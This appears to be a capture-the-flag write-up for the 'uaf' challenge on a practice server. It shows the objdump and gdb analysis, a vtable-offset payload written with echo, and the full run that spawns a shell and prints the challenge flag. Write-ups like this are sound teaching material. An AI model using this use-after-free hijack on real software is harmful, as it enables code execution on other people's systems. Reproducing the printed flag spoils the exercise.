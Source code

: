 ### uaf

The layout in the pwnable server is a bit different then the one compiled locally.
So better investigating directly in the site
This is what I found:

main local variables:
1. m    - at $rbp-0x38
2. w    - at $rbp-0x30
3. len  - at $rbp-0x28
4. data - at $rbp-0x20
3. op   - at $rbp-0x18

Another thing I noted, is that when running 'after' to replace the people with my own buffer,
The first time it is called , it replaces woman and only the second time it replaces man.
So maybe 'after' should be executed twice in order to replace 'man' since man's introduce is called first.

When looking at the content of the 'm' pointer I saw 0x00401570.
runnig `readelf -S uaf` I saw this belongs to the .rodata section. So I dump it:

```
uaf@ubuntu:~$ objdump -s -j .rodata uaf

uaf:     file format elf64-x86-64

Contents of section .rodata:
 4014a0 01000200 00000000 2f62696e 2f736800  ......../bin/sh.
 4014b0 4d79206e 616d6520 69732000 4920616d  My name is .I am
 4014c0 20002079 65617273 206f6c64 00492061   . years old.I a
 4014d0 6d206120 6e696365 20677579 21004920  m a nice guy!.I 
 4014e0 616d2061 20637574 65206769 726c2100  am a cute girl!.
 4014f0 4a61636b 004a696c 6c00312e 20757365  Jack.Jill.1. use
 401500 0a322e20 61667465 720a332e 20667265  .2. after.3. fre
 401510 650a0079 6f757220 64617461 20697320  e..your data is 
 401520 616c6c6f 63617465 64000000 00000000  allocated.......
 401530 00000000 00000000 00000000 00000000  ................
 401540 00000000 00000000 b0154000 00000000  ..........@.....
 401550 7a114000 00000000 76134000 00000000  z.@.....v.@.....
 401560 00000000 00000000 d0154000 00000000  ..........@.....
 401570 7a114000 00000000 d2124000 00000000  z.@.......@.....
 401580 00000000 00000000 f0154000 00000000  ..........@.....
 401590 7a114000 00000000 92114000 00000000  z.@.......@.....
 4015a0 35576f6d 616e0000 00000000 00000000  5Woman..........
 4015b0 90236000 00000000 a0154000 00000000  .#`.......@.....
 4015c0 f0154000 00000000 334d616e 00000000  ..@.....3Man....
 4015d0 90236000 00000000 c8154000 00000000  .#`.......@.....
 4015e0 f0154000 00000000 3548756d 616e0000  ..@.....5Human..
 4015f0 10226000 00000000 e8154000 00000000  ."`.......@.....
```
Indeed we can see the value `7a114000` in the address `401570`.
This value is an adress in the .text section and it is actually the `get_shell` function that we
want:
```
(gdb) disas 0x0040117a
Dump of assembler code for function _ZN5Human10give_shellEv:
   0x000000000040117a <+0>:	push   %rbp
   0x000000000040117b <+1>:	mov    %rsp,%rbp
   0x000000000040117e <+4>:	sub    $0x10,%rsp
   0x0000000000401182 <+8>:	mov    %rdi,-0x8(%rbp)
   0x0000000000401186 <+12>:	mov    $0x4014a8,%edi
   0x000000000040118b <+17>:	callq  0x400cc0 <system@plt>
   0x0000000000401190 <+22>:	leaveq 
   0x0000000000401191 <+23>:	retq   
End of assembler dump.
```
but since the code calls `introduce` the code increments the value in `rax` by 8 in order to point it to the address of the introduce function which is `d2124000`.
Here is the code in main that execute `m->intoduce()`:
```
400fcd:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
  400fd1:	48 8b 00             	mov    (%rax),%rax
  400fd4:	48 83 c0 08          	add    $0x8,%rax
  400fd8:	48 8b 10             	mov    (%rax),%rdx
  400fdb:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
  400fdf:	48 89 c7             	mov    %rax,%rdi
  400fe2:	ff d2                	callq  *%rdx

```
So what we can do is to put 0x401570-0x8 = 0x401568 in the array allocated in 'after'.
Then when the code increments rax by 8 will move it to point to our `get_shell` that we want.

`uaf@ubuntu:~$ echo -n -e '\x68\x15\x40\x00\x00\x00\x00\x00' > /tmp/blablu`

Also, don't forgat to execute `after` twice since the first time replaces woman but we want to replace man.

```
uaf@ubuntu:~$ ./uaf 8 /tmp/blablu
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
```
